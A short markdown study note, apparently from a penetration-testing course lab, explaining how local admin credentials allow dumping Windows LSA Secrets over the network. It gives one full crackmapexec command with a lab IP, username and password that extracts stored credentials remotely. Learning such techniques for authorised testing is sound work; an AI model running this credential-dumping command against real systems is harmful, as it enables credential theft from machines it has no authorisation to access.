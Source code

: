 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Vulnerabilities
---
```

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

#### Dumping LSA Secrets Remotely

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```